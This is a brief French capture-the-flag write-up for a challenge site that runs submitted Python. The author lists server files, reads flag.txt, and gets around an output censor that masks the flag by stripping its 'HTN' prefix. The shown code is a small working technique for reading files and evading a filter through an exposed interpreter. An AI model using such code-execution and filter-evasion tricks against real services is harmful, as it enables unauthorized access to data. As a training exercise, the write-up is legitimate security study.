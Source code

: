 # Pyterpreter no filter

![img](./0.png)

## Challenge :

On a un site, et on veut le flag, c'est tout.

## Stratégie :

On peut déjà regarder les fichiers :

```py
import os
print(os.listdir())

> ['__pycache__', 'code_file', 'templates', 'static', 'app.py', 'flag.txt', 'requirements.txt']
```

Ah ! Un fichier intéressant, lisons-le :

```py
f = open("flag.txt")
print(f.readlines())

> ['<FLAG_CENSORED>']
```

Mince... Si seulement on pouvait résoudre ça... :

```py
f = open("flag.txt")
print(str(f.readlines()).replace("HTN", ""))

> ['{fauxflag}']
```